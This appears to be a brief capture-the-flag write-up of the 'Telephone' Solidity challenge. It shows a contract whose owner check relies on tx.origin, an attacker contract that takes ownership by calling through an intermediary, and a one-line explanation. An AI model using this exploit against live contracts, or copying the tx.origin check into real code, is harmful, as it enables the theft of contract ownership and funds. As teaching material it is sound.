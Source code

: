 <img src="telephone.png" alt="telephone" />

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

<hr />

# Hack

contract CallTelephone {
  constructor() public {}

  function changeOwner(address _contractAddress) public {
    Telephone telephone = Telephone(_contractAddress);
    telephone.changeOwner(msg.sender);
  }
}
```

tx.origin is the address of the account calling the changeOwner and msg.sender is the address of the CallTelephone contract so ownership is changed to the account initiating the changeOwner call.
